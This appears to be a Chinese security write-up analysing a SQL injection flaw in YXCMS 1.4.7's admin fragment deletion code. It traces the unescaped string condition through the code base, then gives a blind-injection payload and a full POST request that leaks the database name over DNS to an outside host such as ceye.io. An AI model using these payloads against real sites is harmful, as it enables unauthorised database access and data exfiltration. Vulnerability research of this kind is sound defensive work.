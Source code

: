 YXCMS 1.4.7SQL注入
==================

一、漏洞简介
------------

二、漏洞影响
------------

1.4.7

三、复现过程
------------

### 漏洞分析

查看漏洞文件protected/apps/admin/controller/fragmentController.php的第63行

    public function del()
    {
        if(!$this->isPost()){
            $id=intval($_GET['id']);
            if(empty($id)) $this->error('您没有选择~');
            if(model('fragment')->delete("id='$id'"))
            echo 1;
            else echo '删除失败~';
        }else{
            if(empty($_POST['delid'])) $this->error('您没有选择~');
            $delid=implode(',',$_POST['delid']);
            if(model('fragment')->delete('id in ('.$delid.')'))
            $this->success('删除成功',url('fragment/index'));
        }
    }

我们跟if(model(\'fragment\')-\>delete(\"id=\'\$id\'\")),它会先到protected/core.php文件里面的model

    function model($model){
        static $objArray = array();
        $className = $model . 'Model';
        if( !is_object($objArray[$className]) ){
            if( !class_exists($className) ) {
                throw new Exception(config('_APP_NAME'). '/' . $className . '.php 模型类不存在');
            }
            $objArray[$className] = new $className();
        }
        return $objArray[$className];
    }

然后到protected/apps/admin/model/fragmentModel.php

    <?php
    class fragmentModel extends baseModel{
        protected $table = 'fragment';
    }

继续protected/base/model/baseModel.php

    <?php
    class baseModel extends model{
         protected $prefix='';
         public function __construct( $database= 'DB',$force = false ){
            parent::__construct();
            $this->prefix=config('DB_PREFIX');
        }
    }

再来到最底层的数据库操作类protected/base/model/model.php的第45行

    public function delete($condition){
    return $this->model->table($this->table, $this->ignoreTablePrefix)->where($condition)->delete();
        }

这个delete()是从哪里来的，我们来看第十三行的代码,创建了一个对象cpModel

    static public function connect($config, $force=false){
            static $model = NULL;
            if( $force==true || empty($model) ){
                $model = new cpModel($config);
            }
            return $model;
        }

漏洞文件在protected/include/core/cpModel.class.php,

    public function delete() {
            $table = $this->options['table'];   //当前表
            $where = $this->_parseCondition();  //条件
            if ( empty($where) ) return false; //删除条件为空时，则返回false，避免数据不小心被全部删除

            $this->sql = "DELETE FROM $table $where";
            $query = $this->db->execute($this->sql);
            return $this->db->affectedRows();
        }

这里用到了一个方法\_parseCondition()

    private function _parseCondition() {
            $condition = $this->db->parseCondition($this->options);
            $this->options['where'] = '';
            $this->options['group'] = '';
            $this->options['having'] = '';
            $this->options['order'] = '';
            $this->options['limit'] = '';
            $this->options['field'] = '*';      
            return $condition;      
        }
    }

这个函数是在protected/include/core/db/cpMysql.class.php的128行

    public function parseCondition($options) {
            $condition = "";
            if(!empty($options['where'])) {
                $condition = " WHERE ";
                if(is_string($options['where'])) {
                    $condition .= $options['where'];
                } else if(is_array($options['where'])) {
                        foreach($options['where'] as $key => $value) {
                             $condition .= " `$key` = " . $this->escape($value) . " AND ";
                        }
                        $condition = substr($condition, 0,-4);  
                } else {
                    $condition = "";
                }
            }

            if( !empty($options['group']) && is_string($options['group']) ) {
                $condition .= " GROUP BY " . $options['group'];
            }
            if( !empty($options['having']) && is_string($options['having']) ) {
                $condition .= " HAVING " .  $options['having'];
            }
            if( !empty($options['order']) && is_string($options['order']) ) {
                $condition .= " ORDER BY " .  $options['order'];
            }
            if( !empty($options['limit']) && (is_string($options['limit']) || is_numeric($options['limit'])) ) {
                $condition .= " LIMIT " .  $options['limit'];
            }
            if( empty($condition) ) return "";
            return $condition;
        }

里面有一个行数来过滤escape,我们找到74行的这个函数定义

    public function escape($value) {
            if( isset($this->_readLink) ) {
                $link = $this->_readLink;
            } elseif( isset($this->_writeLink) ) {
                $link = $this->_writeLink;
            } else {
                $link = $this->_getReadLink();
            }

            if( is_array($value) ) { 
               return array_map(array($this, 'escape'), $value);
            } else {
               if( get_magic_quotes_gpc() ) {
                   $value = stripslashes($value);
               } 
                return  "'" . mysql_real_escape_string($value, $link) . "'";
            }
        }

不过这个函数有一句is\_array如果是数组才会执行下面的过滤，如果不是的话就正常执行下去,没有任何sql的过滤就造成了注入漏洞。

### 复现

这个盲注可以用[http://ceye.io和python脚本跑](http://ceye.io和python脚本跑)

    http://0-sec.org/index.php?r=admin/fragment/index

payload:

    1 and if((select load_file(concat('\\\\',(select database()),'.xxxx.ceye.io\\abc'))),1,1))-- 

    - 点击删除

post包

    POST /index.php?r=admin/fragment/del HTTP/1.1
    Host: 0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 188
    Referer: [url]http://127.0.0.1/index.php?r=admin/fragment/index[/url]
    Cookie: PHPSESSID=bbei6n32cuevaf1lbi0n79rdj2; 
    Connection: close
    Upgrade-Insecure-Requests: 1

    delid%5B%5D=select LOAD_FILE((CONCAT('\\\\',(SELECT DATABASE()),'.8571e594.2m1.pw\\abc')))&__hash__=529fbedab8a7b8a3f3f5a0f394f51cf2_08ebfXTKPoKd0tX4iq+aFMwhq5QkkRGC/NfUu/Ny83+UmU8u0MoCIj8

![](resource/YXCMS1.4.7SQL注入/media/rId27.png)

然后用burp截获数据，修改内容加上我们的payload，用原文的payload后面+会报错

![](resource/YXCMS1.4.7SQL注入/media/rId28.png)

然后进入<http://ceye.io/records/dns> 查看我们的数据

![](resource/YXCMS1.4.7SQL注入/media/rId30.shtml)
